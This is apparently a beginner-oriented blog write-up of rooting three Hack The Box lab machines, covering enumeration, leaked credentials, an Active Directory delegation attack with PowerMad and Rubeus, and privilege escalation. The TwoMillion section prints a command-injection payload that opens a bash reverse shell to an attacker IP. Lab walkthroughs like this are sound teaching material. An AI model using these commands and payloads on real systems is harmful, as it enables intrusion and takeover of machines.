What is this?
If you're new to cybersecurity, the phrase "rooting a box" can sound mysterious or even a little intimidating. It conjures images of arcane commands, elite hackers, and skills you're not sure you have yet. The good news is that rooting a box isn't about being a genius or memorizing magic tricks. It's about learning how systems fail, how attackers think, and how small mistakes can be chained together into full control of a machine.
At its core, rooting a box means starting with no access at all and gradually working your way up until you have root, the highest level of privilege on a Linux system. On Windows machines, the highest level of privilege is NT Authority\SYSTEM. Along the way, you'll enumerate services, uncover weaknesses, exploit misconfigurations, and escalate privileges, step by step. Each box is a puzzle, and every puzzle teaches you something new about real-world security.
This article is written for people starting from zero. You don't need prior experience with hacking, penetration testing, or security tools to follow along. We'll focus first on what rooting is and why it works before introducing the tools and techniques used in practice. By the end, you should not only understand how people root machines, but also why these skills matter and how they translate beyond the problem into real security knowledge. In the Byte Bashers series, I will take on the role of a hacker as I root three virtual machines hosted by Hack The Box: Cap, Support, and TwoMillion.
Disclaimer
Please note that this article is for educational purposes only. The attacks listed in this article have been ethically performed on machines in virtual environments with explicit permission from Hack The Box. Replicating these attacks in real-world environments without permission is a great way to get in trouble. Always make sure you have proper permission before attacking environments.
Tools of the Trade
As I walk through how to break into these boxes, I will be covering my methodology and the command-line tools that I use to secure root privileges. Since this is an introductory article, I will cover everything from a beginner's perspective - which is fitting, because I approached these machines with the same level of experience as a beginner.
The Cyber Kill Chain
The Cyber Kill Chain is a standardized cybersecurity framework that describes the sequential stages of a cyberattack. For each box, we follow the Chain:
- Reconnaissance: Gather information about the target before launching an attack. Know what ports are open, what operating system or protocols are in use, and develop a strategy to attack.
- Weaponization: Using the intelligence from the Reconnaissance phase, we prepare exploits, payloads, or tooling that will be used against the target.
- Delivery: Sending the exploit, payload, credentials, or crafted request to the target.
- Exploitation: Triggering and executing the malicious payload on target systems.
- Installation / Command and Control (C2): We don't cover these parts of the chain in this article, but common actions for attackers to pursue once they have completed exploitation is to leave a backdoor behind and/or use the owned machine to communicate back to the attacker's infrastructure.
- Actions on Objectives: Executing the ultimate goal. This could be performing privilege escalation, moving laterally within the system, or finding a user or root flag. In a real attack, this stage can involve data theft (exfiltration), data encryption (ransomware), network disruption, or the destruction of critical files.
Tools
Here are some of the tools I will be using in this article:
- Bloodhound: A powerful tool used to enumerate Active Directory (AD) structure with the help of an ingestor run on the target system. Mainly a reconnaissance tool, but great for identifying attack paths and privilege escalation opportunities.
- Burp Suite: An excellent suite of tools that allows for packet capture, creation, analysis, and weaponization. Can be used in multiple phases of the kill chain.
- netcat (nc): Lightweight tool used to listen and connect to open ports. Commonly used to receive reverse shells in the exploitation/installation phases.
- nmap: Tool used for discovery of open ports. One of the very first actions performed against a target, great for reconnaissance. You will see port numbers and their protocols next to them for each box.
- Wireshark: GUI tool used to inspect and analyze network traffic in PCAP files. Great for analyzing communications between applications and servers, with plenty of ability to dig deeper and find hidden info. Found mainly in the reconnaissance phase.
Cap
Enumeration
An initial nmap scan of Cap revealed three open ports:
- 21 (FTP) running Vsftpd 3.0.3
- 22 (SSH) running OpenSSH 8.2p1 Ubuntu
- 80 (HTTP) with title "Security Dashboard" and header "gunicorn"
- Additionally, Nmap revealed that the OS was Linux 4.X or 5.X
Port 80 - HTTP

When we navigate to Port 80 on Firefox, we are greeted with a dashboard where we are already logged in as Nathan. We see information about security events, failed login attempts, and port scans. This appears to be a static website with a template by Colorlib, which we discover is a WordPress template.
We can use dirbuster to reveal information about how the website is structured:
- The IP page displays a console that runs ifconfig on the underlying VM.
- The netstat page has similar behavior, running netstat on the underlying VM.
- What might be interesting to us is the Data page. We can generate data using the capture endpoint, but we can also enumerate through prior data scans.
After playing around with the data page, we come across Scan 0 which had some interesting data on it. We find that Nathan's username and password for the FTP server were shown here in plaintext! This is an immediate finding and we will use this to gain access to the FTP server living on the VM.
Port 21 - FTP

We are able to login to Cap's FTP port using the username nathan and password Buck3tH4TF0RM3!. In the working directory, /home/nathan, there is a file user.txt. This is the User flag, submitted to HTB for scoring.
With some basic directory traversal, we find additional information when examining the underlying structure of the website. All of the files are write-protected, but there is an interesting example of how the website developers worked around permissions issues with gunicorn and threads. The Python binary on the system has the capability cap_setuid enabled, allowing it to execute os.setuid(0) and impersonate root. The os.setuid function allows users to set their own UIDs, which is how Linux determines roles and permissions on the system level. The UID 0 is particularly significant; this is the UID associated with root, the highest authority on the system. Further, the cap_setuid capability is a critical part of this exploit; without it, we would not be able to execute os.setuid and impersonate root. This will help us with our next task of privilege escalation, where we will assume the role of root in an unintended way.
Port 22 - SSH
Fortunately, Nathan has the same SSH and FTP passwords. We can use the same credentials from earlier, nathan:Buck3tH4TF0RM3!, and we are able to navigate through the rest of the filesystem using SSH. One of the first things I do when establishing an SSH foothold is utilize LinPEAS, a quick program optimized for Linux environments that scans for vulnerabilities. LinPEAS identified that the Python 3.8 binary had the cap_setuid and cap_net_bind_service+eip capabilities assigned, meaning it was capable of root impersonation as demonstrated by our findings in FTP. Knowing this, we are able to recreate the setuid(0) command inside the SSH session and expand upon this using a one-liner to spawn a reverse shell while impersonating root. Through these efforts, we are able to completely own the system as root!

Support
Enumeration
The initial nmap scan revealed a bunch of ports. Among the most pertinent are:
- Port 53, for DNS
- Port 445, for SMB
- Port 5985, the default port for Windows Remote Management (WinRM) HTTP traffic
Port 53 - DNS
We start with Port 53 for DNS traffic. From previous examples, we know HTB boxes usually follow a naming pattern of boxname.htb so we can use this in a dig query. We use the globally accessible IP with the @ symbol and plug in the IP provided to us by HTB. The final query looks like this: dig @10.XXX.XXX.XXX support.htb. A few results come up:
- The nameserver used is dc.support.htb
- The Start of Authority (SOA) record is dc.support.htb hostmaster.support.htb
- Both of these will be valuable later. We will add both DC and Hostmaster to /etc/hosts as-is.

Port 445 - SMB
Next, we turn our attention to Port 445 and investigate what's happening with Support's SMB shares. We are immediately asked for credentials when connecting to this port, which we don't have right now. Upon initial inspection, there are six shares: ADMIN$ for the remote admin, C$ is the default share, IPC$ for remote IPC, NETLOGON and SYSVOL for logon server shares, and support-tools, which is not a traditional SMB share. This would be interesting to examine, and fortunately we are able to mount the support-tools fileshare using a couple of quick commands:
mkdir support-toolssudo mount //10.XXX.XXX.XXX/support-tools ./support-tools- No password needed... We have ported everything over!
Upon inspecting the support-tools share, we find a number of publicly-available tools, save for one: Userinfo.exe.zip. While we are in this folder, we aren't able to extract the ZIP, so we will move the file to another folder where we have write access and extract it there. Inside, we find UserInfo.exe, which we can execute in Wine. It appears this is a program designed to use Lightweight Directory Access Protocol (LDAP) to connect to Support. We can use Wireshark to examine the traffic in more detail. As it turns out, the key for LDAP authentication is revealed in plaintext, making it very easy for us to grab and connect to LDAP ourselves!

Wireshark transcript showing the successful connection to support\ldap.

Wireshark breakdown of LDAP request, revealing the authentication key in plaintext.
We can connect to LDAP using ldapsearch: ldapsearch -x -H ldap://10.XXX.XXX.XXX -D 'support\ldap' -w '{password}' -b 'cn=users,dc=support,dc=htb. Of course, replace {password} with the password discovered from LDAP and make sure the base domain name (base DN) matches your findings from DNS search.
Where does the Base DN come from?
Typically on Windows machines, the users are in their own Canonical Name (CN) group called users. We chain this together with the DC information we pulled from dig and come up with the full argument for the -b parameter:
cn=users,dc=support,dc=htb
When we connect to the Users CN, we get a bunch of data in return, including a listing of all of the users on the app. The format most commonly observed is lastname.firstname, save for two accounts: ldap and support. When looking at the support account, we come across the info field, which has an interesting string: Ironside47pleasure40Watchful. This is most likely the password to the Support account, so we will take this along with us for the next portion of the box.
Finally, to gain a foothold into the Support box, we take the password from Support's info field and use evil-winrm to connect to the box on port 5985. Shortly after, we reach the User flag.

LDAP recovery of Support's password in plaintext from the info field.

Successful evil-winrm login over Port 5985. We use whoami once inside to confirm identity.
Port 5985 - WinRM

Now that we have a foothold into Support, the next step is to escalate our privileges to SYSTEM. We can use the upload command within evil-winrm to upload WinPEAS, a version of PEAS for Windows machines. Unfortunately, WinPEAS didn't give me any significant findings this time.
To further enumerate this box, we use crackmapexec to identify the target OS. We discover this machine is running Windows Server 2022 Build 20348 x64, which will become important later. We pair crackmapexec with Bloodhound, a way to graphically analyze AD structure. I followed Bloodhound's tutorials to deploy an ingestor and quickly discovered the domain structure. Something surprising came up: Support is a member of Shared Support Accounts, a group which has the GenericAll permission on the Domain Controller (DC). This is a critical part of our exploit process; GenericAll is a high-level permission that grants full control over an object. In this case, the Shared Support Accounts group has full control over the DC!
Resource-Based Constrained Delegation (RBCD)

Our primary exploit involves abusing Resource-Based Constrained Delegation (RBCD) to crack and decrypt a Kerberos ticket. Here, we will trick Kerberos into granting tickets that we can decrypt offline and use credentials we harvest from said tickets to break into SYSTEM. Following the guide from ired.team, we can start to map out the process for our Kerberoasting attack:
- We have code execution in the context of support user (don't know which box),
- User support has GenericAll privilege over a target computer DC,
- User support created a new computer object AttackerComputer in AD,
- User support leverages the WRITE privilege on the DC computer object and updates its object attribute
msDS-AllowedToActOnBehalfOfOtherIdentity(ATA) to enable the newly created computer AttackerComputer to impersonate and authenticate any domain user that can then access the target system DC. - DC trusts AttackerComputer due to the modified parameter ATA,
- We request Kerberos tickets for AttackerComputer with ability to impersonate Administrator who is a Domain Admin,
- Profit - We can now access the C$ share of DC from the remote session.
Here is how we replicate this:
- Make a new computer account. In this case, we create AttackerComputer using PowerMad as such:
Powershell -Command 'Import-Module ./Powermad.psm1; New-MachineAccount -MachineAccount "AttackerComputer" -Password (ConvertTo-SecureString -String "hacker" -AsPlainText -Force)' - Set the msDS-AllowedToActOnBehalfOfOtherIdentity (ATA) attribute on the target computer, DC. This will make DC trust us to do totally trustworthy things on its behalf. In this example, we have done this on behalf of Administrator.
$Attacker = Get-ADComputer -Identity "AttackerComputer"Set-ADComputer -Identity "DC" -PrincipalsAllowedToDelegateToAccount $Attacker- Verify:
Get-ADComputer -Identity "DC" -Properties - You should see AttackerComputer
- Next, we execute a Service for User (S4U) request with Rubeus to get a ticket for a privileged user. There are a couple of steps we need to do here:
- First, Rubeus needs to generate the rc4_hmac hash (AKA the NT in NTLM) for the password we gave to AttackerComputer. (
Rubeus.exe hash /password:hacker /user:AttackerComputer /domain:support.htb) - Next, we launch the S4U attack with Rubeus:
Rubeus.exe s4u /user:AttackerComputer$ /rc4:[NT hash] /impersonateuser:Administrator /msdsspn:cifs/DC.support.htb /ptt /nowrap - You should see a S4U2proxy success! message if this worked.
- If you see Kerberos error codes, this did not work. Double-check everything, dot I's and cross T's, etc.
- First, Rubeus needs to generate the rc4_hmac hash (AKA the NT in NTLM) for the password we gave to AttackerComputer. (
What can we do with this ticket? We can attempt to crack this offline, or we can use Impacket to convert this ticket into Ccache format. Ccache is what Linux likes to use for authentication, and we need to convert our ticket away from Rubeus format anyway. Rubeus has a built-in script called rubeustoccache.py that takes your hash as input and spits out a KIRBI and a CCACHE file as output. Syntax is as so: python rubeustoccache.py {HASH} admin.kirbi admin.ccache. Don't forget that what Rubeus gives you is encoded in Base64! You'll need to decode it or use an additional tool to help with the encoding.
Now that our hash is in CCACHE format, we need to set an environment variable on our Kali Linux attackbox: KRB5CCNAME. In particular, we use the following command: export KRB5CCNAME=admin.ccache. This way we can use psexec.py without needing to provide a hash or password, and we can glide right into SYSTEM.
To complete our final attack into SYSTEM, we use the PSExec functionality provided by Impacket: impacket-psexec -k -no-pass support.htb/administrator@dc.support.htb. This allows us to log in to Support directly as SYSTEM and capture the root flag!

Rubeus ticket impersonation via S4U attack.

Final login as SYSTEM in the Support box.
TwoMillion
Enumeration
An initial nmap scan reveals two open ports:
- Port 22, SSH. This is likely where we will perform privilege escalation later, once we have obtained credentials.
- Port 80, HTTP. This is most likely where we start our investigation.
Port 80 - HTTP

As part of my initial discovery into this website, I opened Burp Suite and opened a browser while Burp worked its magic in the background, building a sitemap while I navigated through the website. This website appears to be a copy of the HTB website from 2017. Part of this website involves an account creation challenge, which requires sending an API call to an endpoint and decoding some Base64 output. I won't spoil how to break through this puzzle, but there are plenty of guides online on how to do so (Or you can be curious and solve it yourself.)
After solving the invite challenge, we tab back to Burp and see what it has discovered in its sitemap. There was one area of interest: /api/v1, an endpoint that displays API documentation when we visit. There are three endpoints of interest:
- GET admin/auth: Check if user is admin.
- POST admin/vpn/generate: Generate VPN for specific user.
- PUT admin/settings/update: Update user settings.
We are most interested in the PUT command. We can send PUT requests to this endpoint and the API will tell us what we need to proceed. In this case, we need the email we created our account with, as well as a PHP Session ID (PHPSESSID), a header, and the is_admin flag set to 1 (because we want to become administrators). Doing so, we get a 200 OK response, confirming we have escalated our application-level privileges to Admin within the website. We can confirm using the admin GET endpoint - it comes back true!


The next step is to use the Admin VPN Generation endpoint and perform some command injection on it. The VPN file interfaces with the host OS and it is vulnerable to malicious input. We will use this to our advantage to gain a foothold into the 2million machine. Like we did with the PUT endpoint, we can enumerate the POST endpoint to find what we need. In this case, we need a Username... And we discover that the username we put into this endpoint is part of the OVPN file sent back. We can exploit this using some escape characters. We only get a response back if we actually provide a username, but if we terminate the command with a semicolon (;) and end the next command with a hash (#) we can chain two commands together and only receive the response of the second command. This is likely because the server is simply processing a script in the fashion generate_script(username). With our modification, it becomes generate_script(username);{second command} #. An example malicious username: generate_script(hacker); whoami # would return the hostname of the system processing this script.
Now that we know how to break this script, we can spawn a reverse shell to connect. I used the Burp Repeater in combination with a quick one-liner in Bash to do this: curl -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID={Session ID} --header "content-type:application/json" --data '{"username":"hacker; bash -c 'bash -i >& /dev/tcp/10.XXX.XXX.XXX/4444 0>&1' #"}'. Note that you may encounter quoting issues; that's why I switched from Curl to Burp Suite to deliver this payload. Regardless, the above request works, and we establish a foothold as www-data inside the machine.
Upgrading the Command Line
The next step is to take our reverse shell and find a way to upgrade our command line to SSH. While we enumerate the webserver, we come across the user key (locked behind the Admin folder) and an email from ch4p to admin and g0blin. This suggests we need to use admin as our user and perform privilege escalation from there. This also suggests the POC to use later on: "There have been a few serious Linux kernel CVEs already this year. That one in OverlayFS / FUSE looks nasry. We can't get popped by that."
We also come across a Database connection string complete with username and password in plaintext: admin:SuperDuperPass123. We can use these credentials to upgrade our connection to SSH and control the user flag.

The mail message left to admin from ch4p.

Direct login from the database file into SSH. Yes, we have mail.
Elevating to Root
Let's go back and look at that email. The CVE being referenced is from 2023 and has to do with OverlayFS/FUSE. This is most likely CVE-2023-0386 which has a nice POC online. We used the POC on 2M and it worked on the first try! We successfully claim the root flag.

What Did We Learn?
Rooting boxes is about much more than collecting flags or running exploits you found online. Each box teaches practical lessons about how systems break down in the real world and how attackers can chain small weaknesses together into meaningful compromise. Through each box, we learned how important enumeration is. Open ports, exposed fileshares, insecure API endpoints, plaintext credentials, and weak AD permissions all became entry points because the systems revealed more information than intended. In many cases, the hardest part was not the exploit itself, but knowing where to look and recognizing what mattered.
Most importantly, these exercises build a mindset. Rooting boxes teaches patience, methodology, and curiosity. You learn how to document findings, test assumptions, troubleshoot failed exploits, and adapt when your first idea does not work. These are the same skills used by penetration testers, defenders, system administrators, and security engineers in real environments. The goal is not simply to become good at Hack The Box, but rather to better understand how systems communicate, how trust relationships function, and how attackers think so you can recognize and defend against these weaknesses in the future.
Published May 2026